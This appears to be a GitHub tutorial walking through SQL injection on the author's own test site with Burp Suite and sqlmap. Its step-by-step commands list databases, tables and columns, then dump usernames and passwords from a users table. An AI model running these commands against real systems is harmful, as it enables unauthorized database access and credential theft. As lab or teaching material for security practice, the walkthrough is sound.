 # SQl INJECTION  USING Sqlmap tool
Using SQLMAP tool and Burp suite we are going to attack and retreat data from our created website(http://webapp.host/index.php)

Check for SQL Vulnerablity in targeted website if yes then proceed with following process

use simple payloads to make sure site is vulnerable.


Step 1.

Open Browser and take your targeted website and give some random username and password and wait to hit login

![image](/screenshots/Browser1.png)

Step 2.
when i click the submit button just i did capture the requst with Burpsuit feature

Step 3.
After capture the request, just save the result into a test file

Step 4.
Now,just open the terminal and run the SQlmap tool by using this command

![image](/screenshots/sqlinjectionnadhu.png)

sqlmap -r rox.rq http://webapp.host/index.php --dbs

Here, rox.rq = saved filename from Brupsuit

Step 5.
First you just observe, will get somany request and finally you will get Databases list,which is stored in target website

![image](/screenshots/14.png)

I got databases list:
1. information_schema
2. login

Step 6.
Now you can collect the tables list which is stored in databases by using this command
sqlmap -r rox.rq http://webapp.host/index.php -D login --tables
(you can observe the result in above screenshot)

Step 7.
Wow you got tables,now you need tables right. For that
sqlmap -r rox.rq http://webapp.host/index.php -D login -T users --columns

![image](/screenshots/16.png)

Step 8.
Now you can get the list of columns,
if you want to read the columns,you have to use this command
sqlmap -r rox.rq http://webapp.host/index.php -D login -T users -C id,password,username --dump

![image](/screenshots/17.png)

![image](/screenshots/18.png)


Now you can observe the output of the cammand at above image, you will get the total information of id,password,usernames.










